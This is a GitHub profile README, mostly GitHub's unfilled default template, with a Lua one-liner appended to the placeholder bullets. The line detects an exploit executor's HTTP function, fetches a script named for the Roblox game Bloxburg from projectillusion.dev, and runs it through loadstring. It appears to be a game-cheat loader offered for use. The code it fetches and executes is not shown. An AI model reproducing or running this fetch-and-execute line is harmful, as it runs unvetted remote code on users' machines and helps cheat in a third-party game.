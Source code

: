 - 👋 Hi, I’m @sebasgotforces
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...local http_request = http_request or request or (syn and syn.request) or (http and http.request) loadstring(http_request({Url="https://projectillusion.dev/beta/illusion/illusion_bloxburg_pizza.lua",Method="GET"}).Body)()

<!---
sebasgotforces/sebasgotforces is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->

